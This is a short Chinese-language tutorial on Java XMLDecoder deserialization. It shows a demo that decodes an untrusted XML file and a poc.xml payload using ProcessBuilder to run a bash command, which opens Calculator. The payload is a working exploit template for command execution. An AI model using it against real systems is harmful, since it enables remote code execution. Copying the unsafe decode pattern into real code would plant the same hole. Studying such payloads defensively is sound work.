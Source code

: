 XMLDecoder 反序列化漏洞
=================

下面来看一个解析 xml 导致反序列化命令执行的 demo:

```
package ghtwf01.demo;

import java.beans.XMLDecoder;
import java.io.BufferedInputStream;
import java.io.FileInputStream;
import java.io.FileNotFoundException;

public class XmlDecoder {
    public static void main(String[] args) throws FileNotFoundException {
        XMLDecoder d = new XMLDecoder(new BufferedInputStream(new FileInputStream("/Users/ghtwf01/poc.xml")));
        Object result = d.readObject();
        d.close();
    }
}


```

poc.xml

```
<java version="1.4.0" class="java.beans.XMLDecoder">
    <void class="java.lang.ProcessBuilder">
        <array class="java.lang.String" length="3">
            <void index="0">
                <string>/bin/bash</string>
            </void>
            <void index="1">
                <string>-c</string>
            </void>
            <void index="2">
                <string>open -a Calculator</string>
            </void>
        </array>
        <void method="start"/></void>
</java>


```

![](https://mmbiz.qpic.cn/mmbiz_png/GzdTGmQpRic2yqxwSXicicJiatWkGvAvvu4zQTDuPY727g7F1BVEPMXVlS1ObFzvjic4sCEHRlEsa6CJbZ9tNzeuxFQ/640?wx_fmt=png)

使用 java.lang.ProcessBuilder 进行代码执行，整个恶意 XML 反序列化后相当于执行代码:  

```
String[] cmd = new String[3];
cmd[0] = "/bin/bash";
cmd[1] = "-c";
cmd[2] = "open /System/Applications/Calculator.app/";
new ProcessBuilder(cmd).start();


```
